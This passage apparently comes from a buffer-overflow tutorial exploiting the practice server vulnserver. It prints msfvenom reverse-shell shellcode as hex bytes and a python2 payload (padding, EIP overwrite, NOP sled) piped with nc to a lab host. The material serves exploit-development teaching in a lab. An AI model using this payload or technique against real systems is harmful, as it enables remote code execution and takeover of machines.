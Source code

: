 ![bo-033.png](/assets/images/bo-033.png)
**Figure 33** Msfvenom output.

So, this is the shellcode we going to execute against out target vulnserver, now we end up with the following code, which contain the `B` which should overwrite the EIP, then instead the `D` I insert `\x90` as we saw erliear for NOP byte which going to be the SLAD for our reverse shell code, we also check the lenght of the code and use it to calculate the last 100 chars.

```bash
└─$ python2 -c "print len(str('\xbd\x48\xeb\xf5\x4c\xda\xd0\xd9\x74\x24\xf4\x58\x31\xc9\xb1\x12\x31\x68\x12\x83\xc0\x04\x03\x20\xe5\x17\xb9\x81\x22\x20\xa1\xb2\x97\x9c\x4c\x36\x91\xc2\x21\x50\x6c\x84\xd1\xc5\xde\xba\x18\x75\x57\xbc\x5b\x1d\xa8\x96\xe2\xfd\x40\xe5\x1a\xfc\x2b\x60\xfb\x4e\x2d\x23\xad\xfd\x01\xc0\xc4\xe0\xab\x47\x84\x8a\x5d\x67\x5a\x22\xca\x58\xb3\xd0\x63\x2e\x28\x46\x27\xb9\x4e\xd6\xcc\x74\x10'))"
95
└─$ echo $(python2 -c "print 'HELP'+'A'*68+'BBBB'+'\x90'*32+'\xbd\x48\xeb\xf5\x4c\xda\xd0\xd9\x74\x24\xf4\x58\x31\xc9\xb1\x12\x31\x68\x12\x83\xc0\x04\x03\x20\xe5\x17\xb9\x81\x22\x20\xa1\xb2\x97\x9c\x4c\x36\x91\xc2\x21\x50\x6c\x84\xd1\xc5\xde\xba\x18\x75\x57\xbc\x5b\x1d\xa8\x96\xe2\xfd\x40\xe5\x1a\xfc\x2b\x60\xfb\x4e\x2d\x23\xad\xfd\x01\xc0\xc4\xe0\xab\x47\x84\x8a\x5d\x67\x5a\x22\xca\x58\xb3\xd0\x63\x2e\x28\x46\x27\xb9\x4e\xd6\xcc\x74\x10'+'\x90'*(100-95)")|nc 192.168.126.36 8080
```

You can see that after the shell code we add more bytes for make it longer till 100 chars, since the shell code length is 95, we add more NOP bytes which is 5 on that case to make that input code long with more 100 chars after we run it we can see that we get the same segmentation fault which great.

![bo-034.png](/assets/images/bo-034.png)